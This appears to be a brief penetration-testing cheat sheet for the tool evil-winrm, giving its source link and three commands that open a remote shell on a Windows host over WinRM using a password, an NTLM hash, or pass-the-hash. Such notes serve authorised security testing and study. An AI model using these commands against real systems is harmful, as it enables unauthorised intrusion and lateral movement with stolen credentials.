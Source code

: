 ### source
https://github.com/Hackplayers/evil-winrm  

### start shell on host (port 5985,5986)
```
evil-winrm -i <ip> -u <user> -p <password>
```

### using ntlm hash
```
evil-winrm -i <ip> -u <user> -H <ntlmHash>
```

### pass the hash
```
evil-winrm -u <user> -H <Hash> -i <IP>
```

